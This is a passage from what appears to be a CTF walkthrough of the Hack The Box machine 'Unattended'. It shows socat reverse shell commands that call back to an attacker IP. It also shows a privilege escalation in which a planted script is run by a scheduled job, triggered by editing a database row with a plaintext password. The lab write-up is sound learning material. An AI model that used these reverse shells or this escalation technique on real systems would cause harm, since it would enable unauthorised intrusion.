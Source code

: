 _On my attacking machine_

```
# socat file:`tty`,raw,echo=0 tcp-listen:80
```

_On the browser address bar (need to urlencode)_

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.12.61:80
```

<a class="image-popup">
![fa385a7d.png](/assets/images/posts/unattended-htb-walkthrough/fa385a7d.png)
</a>

## Privilege Escalation

During enumeration of `www-data`'s account, I notice something weird. All the `tmpfs` are mapped with `nosuid`, `nodev`, and `noexec` options, which means that I can't execute anything on those mounted volumes, except for:

```
/var/cache/apache2/mod_cache_disk
```

Long story short, the rows in the `config` table appears to be a backup of Joomla's `configuration.php`, again, except for `checkrelease`. The files listed there are executed and restored every minute on the minute without fail, even if you change it to something else. Combining the two observations, I was able to get another shell as
`guly` by completing the following within a minute:

```
$ cd /var/cache/apache2/mod_cache_disk
$ echo -ne '!#/bin/bash\n\nsocat exec:"bash -li",pty,stderr,setsid,sigint,sane tcp:10.10.12.61:443' > check.sh; chmod +x check.sh
$ PW=1036913cf7d38d4ea4f79b050f171e9fbf3f5e
$ mysql -unestedflanders -p$PW -e "update neddy.config set option_value = '/var/cache/apache2/mod_cache_disk/check.sh' where id = 86;"
```

A minute later, `guly`'s shell appeared!

<a class="image-popup">
![e0502e47.png](/assets/images/posts/unattended-htb-walkthrough/e0502e47.png)
</a>

The `user.txt` is in `guly`'s home directory.

<a class="image-popup">
![9fe16106.png](/assets/images/posts/unattended-htb-walkthrough/9fe16106.png)
</a>
